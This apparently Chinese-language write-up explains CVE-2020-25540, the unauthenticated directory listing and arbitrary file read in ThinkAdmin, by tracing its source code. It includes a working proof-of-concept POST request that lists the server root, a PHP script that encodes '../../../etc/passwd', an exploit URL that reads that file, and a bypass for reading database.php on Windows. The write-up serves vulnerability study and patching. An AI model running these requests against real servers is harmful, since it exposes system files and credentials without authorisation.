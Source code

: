 # ThinkAdmin未授权列目录/任意文件读取(CVE-2020-25540)漏洞

### 0X00简介

> ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

### 0X01影响范围

> Thinkadmin ≤ 2020.08.03.01   v5（任意文件读取）   v6（列目录,任意文件读取）

```
查看版本https://ip/admin/login.html?s=admin/api.Update/version
```

![img](.resource/Untitled/media/640-20201203205524089.png)

### 0X02漏洞复现

在`app/admin/controller/api/Update.php`中存在3个function，无需登录验证就能使用。

```
namespace
app\admin\controller\api;
use think\admin\Controller;
use think\admin\service\ModuleService;
use think\admin\service\SystemService;
```

#### 1.列目录漏洞

在node()方法中，直接将POST的rules和ignore参数传给了InstallService::instance()->getList()![img](.resource/Untitled/media/640-20201203205523992.png)在vendor/zoujingli/think-library/src/service/InstallService.php中利用scanList()去遍历$rules数组![img](.resource/Untitled/media/640-20201203205523991.png)继续跟进，在scanList()方法中调用scanDirectory()递归遍历目录下的文件，然后利用_getInfo()方法获取文件名和哈希值。![img](.resource/Untitled/media/640-20201203205524006.png)![img](.resource/Untitled/media/640-20201203205524059.png)![img](.resource/Untitled/media/640.png)在整个过程中并没有进行任何过滤和认证，由此攻击者可以利用此漏洞获取服务器目录列表。

利用poc



```
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```

![img](.resource/Untitled/media/640-20201203205524165.png)

#### 2.任意文件读取漏洞

在app/admin/controller/api/Update.php中存在get()方法，对GET中的encode参数使用decode()方法进行解码。![img](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4SlLZzpJsiaapTbrn7OA1HBVTX3Dl1kRibicVto1cUlibvEnsoh0lFCmgbw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)![img](.resource/Untitled/media/640-20201203205523989.png)上面正好有个encode()方法，攻击时可以直接调用。![img](.resource/Untitled/media/640-20201203205524086.png)继续看ModuleService::instance()->checkAllowDownload()，禁止下载数据库配置文件，name参数不能为database.php。![img](.resource/Untitled/media/640-20201203205524082.png)跟进getAllowDownloadRule()函数。![img](.resource/Untitled/media/640-20201203205524107.png)发现允许了以下路径。



```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

可以通过控制$name参数，实现任意文件读取，且在Linux中无法读取database.php，而window中可以利用database"php来绕过。读取的文件路径需要编码。

编码脚本：



```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```



```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

![img](.resource/Untitled/media/640-20201203205524226.png)![img](.resource/Untitled/media/640-20201203205524186.png)

参考链接：

https://github.com/zoujingli/ThinkAdmin/issues/244

